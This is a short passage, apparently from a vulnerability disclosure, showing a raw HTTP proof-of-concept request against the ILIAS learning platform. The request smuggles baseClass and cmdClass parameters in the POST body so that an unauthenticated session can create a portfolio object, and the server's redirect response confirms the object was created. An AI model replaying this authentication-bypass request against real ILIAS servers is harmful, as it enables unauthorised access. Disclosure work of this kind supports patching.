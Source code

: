 **Note**: 
This request passes the `baseClass` and `cmdClass` via the `POST` body instead of cookies.


```http
POST /ilias.php?new_type=prtf&cmd=post&cmdClass=ilobjportfoliogui&cmdNode=99:ve:p6&baseClass=ilDashboardGUI&rtoken=441c440acdd7ad00179ed6795b42e7f6 HTTP/1.1
Host: ilias.local:9080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 179
Origin: http://ilias.local:9080
Connection: close
Referer: http://ilias.local:9080/ilias.php?new_type=prtf&cmd=post&cmdClass=ilobjportfoliogui&cmdNode=99:ve:p6&baseClass=ilDashboardGUI&rtoken=441c440acdd7ad00179ed6795b42e7f6
Cookie: ilClientId=myilias; PHPSESSID=Unauth;
Upgrade-Insecure-Requests: 1

title=FooBar-Portfolio-unauth&mode=mode_scratch&ptype=page&fpage=FooBar-PortfolioTitle-unauth&blog=&cmd%5Bsave%5D=Erstellen&baseClass=ilStartupGUI&cmdClass=ilPasswordAssistanceGUI
```

The response which redirectes to the new object with ID `404`.

```http
HTTP/1.1 302 Found
Date: Fri, 28 Apr 2023 06:25:00 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: http://ilias.local:9080/ilias.php?prt_id=404&cmd=view&cmdClass=ilobjportfoliogui&cmdNode=99:ve:p6&baseClass=ilDashboardGUI
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```
